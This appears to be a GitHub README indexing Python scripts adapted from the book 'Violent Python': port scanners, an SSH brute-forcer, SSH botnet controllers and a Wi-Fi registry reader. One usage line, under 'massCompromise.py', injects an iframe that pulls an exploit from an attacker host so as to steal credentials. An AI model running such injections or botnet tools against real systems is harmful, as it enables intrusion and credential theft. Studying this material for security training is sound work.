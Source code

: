 # Digital-Forensic-Analytics
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System

I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on
The actual i have is Kali Linux 64 Bit 2018.2
Window7 for few scripts


# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  

taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

## M) discoverNetworks.py    
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
